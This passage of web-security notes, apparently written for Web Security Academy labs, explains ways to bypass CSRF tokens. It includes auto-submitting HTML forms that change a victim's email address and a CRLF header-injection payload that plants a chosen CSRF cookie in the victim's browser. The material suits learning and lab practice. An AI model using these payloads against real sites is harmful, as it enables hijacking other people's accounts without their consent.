 Usually sensitive functions like updating user account details use POST requests and send the information in the body. If the vulnerable website is using a CSRF token to verify POST requests, you may be able to bypass the verification with a GET request:
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form id="autoSubmitForm" action="https://vulnerable-website.com/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="csrf&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById('autoSubmitForm').submit();
    </script>
  </body>
</html>
```

In this example I have added the `<input type="hidden" name="_method" value="GET" />` element to override the form, this is taking advantage of an XSS to edit arbitrary headers in the victim's request, setting the CSRF token to the value of `1` in both places to bypass the CSRF token check.
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
  <img src="https://vulnerable-website.com/?search=term%0d%0aSet-Cookie:%20csrf=1%3b%20SameSite=None" onerror="document.forms[0].submit()" />
<form action="https://0a84001303902cd285e3ddd700b200ff.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@normal-user.net" />
    <input type="hidden" name="csrf" value="1" />
    <input type="hidden" name="_method" value="GET" />
    <button type="submit">Submit</button>
</form>
</body>
</html>
```
#### *Using two accounts to detect if CSRF token cookie is tied to session cookie*
Create two accounts on the target website. Log in with the first user, and check to see if modifying the CSRF token in the cookies results in being logged out. If modifying the token does not log you out, you may be able to use that CSRF token for the second user when executing sensitive functions.

To escalate this vulnerability, I found a search functionality that does not sanitize user input, and uses that input to set a cookie in your browser; `https://vulnerable-website.com/?search=test` this search parameter's value will be set as; `LastSearchTerm=test`. This will be vulnerable to breaking out and setting arbitrary headers. The following payload will set my current CSRF token to be the victim's, taking advantage of the CSRF token not being tied to the session token:
```
/?search=term%0d%0aSet-Cookie:%20csrfKey=j4wmHRgXySlbhb4Has0Kc5koyZpSNpwI%3b%20SameSite=None
```
